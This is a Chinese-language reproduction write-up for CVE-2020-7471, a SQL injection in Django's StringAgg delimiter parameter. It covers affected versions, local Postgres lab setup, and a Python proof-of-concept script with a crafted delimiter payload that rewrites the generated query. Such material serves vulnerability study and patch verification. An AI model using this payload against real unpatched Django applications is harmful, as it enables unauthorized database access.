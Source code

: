 # CVE-2020-7471 Django sql注入漏洞

### 一、漏洞简介

Django是高水准的由Python编程语言驱动的一个开源Web应用程序框架，起源于开源社区。使用Django，程序员可以方便、快捷地创建高品质、易维护、数据库驱动的应用程序，应用广泛。2020年2月初，Django 官方发布安全通告公布了一个通过StringAgg（分隔符）实现利用的潜在SQL注入漏洞（CVE-2020-7471）。攻击者可通过构造分隔符传递给聚合函数contrib.postgres.aggregates.StringAgg，从而绕过转义并注入恶意SQL语句

### 二、漏洞影响

Django 1.11.x < 1.11.28
Django 2.2.x < 2.2.10
Django 3.0.x < 3.0.3
Django 主开发分支

### 三、复现过程

环境安装

安装 django 漏洞版本，我测试用的是


```bash
pip install django==3.0.2 -i https://pypi.tuna.tsinghua.edu.cn/simple
```

参考 https://www.runoob.com/postgresql/windows-install-postgresql.html 完成 postgres 数据库的安装

新建数据库


```sql
CREATE DATABASE test;
```

修改 sqlvul_projects/settings.py 里面的数据库配置，如果上一步你安装用的默认配置（包括设置密码为postgres），就无需修改任何配置，可以跳过这一步


```sql
DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.postgresql',
        'NAME': 'test',         # 数据库名称
        'USER': 'postgres',
        'PASSWORD': 'postgres', # 数据库用户密码
        'HOST': '127.0.0.1',    # 数据库地址
        'PORT': '5432',
    }
}
```

通过 django 初始化数据表


```bash
python3 manage.py migrate
python3 manage.py makemigrations vul_app
python3 manage.py migrate vul_app
```

**poc**


```python
# encoding:utf-8
import os
import django
os.environ.setdefault("DJANGO_SETTINGS_MODULE", "sqlvul_project.settings")

# Django 版本大于等于1.7的时候，需要加上下面两句
if django.VERSION >= (1, 7):#自动判断版本
    django.setup()

from vul_app.models import Info
from django.contrib.postgres.aggregates import StringAgg
from django.db.models import Count

"""
postgres 预先执行的SQL
CREATE DATABASE test;
\c test;
\d 列出当前数据库的所有表格
"""

def initdb():
    data = [('li','male'),('zhao','male'),('zhang','female')]
    for name,gender in data:
        Info.objects.get_or_create(name=name,gender=gender)

def query():
    # FUZZ delimiter
    error_c = []
    other_error_c = []
    for c in "!@#$%^&*()_+=-|\\\"':;?/>.<,{}[]":
        results = Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name',delimiter=c))
        try:
            for e in results:
                pass
        except IndexError:
            error_c.append(c)
        except:
            other_error_c.append(c)
    print(error_c)
    print(other_error_c)

def query_with_evil():
    '''
    注入点证明
    分别设置delimiter为 单引号 二个单引号 二个双引号
    尝试注释后面的内容 ')--
    :return:
    '''
    print("[+]正常的输出：")
    payload = '-'
    results = Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter=payload))
    for e in results:
        print(e)
    print("[+]注入后的的输出：")
    payload = '-\') AS "mydefinedname" FROM "vul_app_info" GROUP BY "vul_app_info"."gender" LIMIT 1 OFFSET 1 -- '
    results = Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter=payload))
    for e in results:
        print(e)



if __name__ == '__main__':
    print(django.VERSION) # 测试版本 3.0.2
    initdb()
    query()
    query_with_evil()
```

然后运行 POC 脚本CVE-2020-7471.py就可以了

漏洞环境及其poc下载地址：https://github.com/ianxtianxt/CVE-2020-7471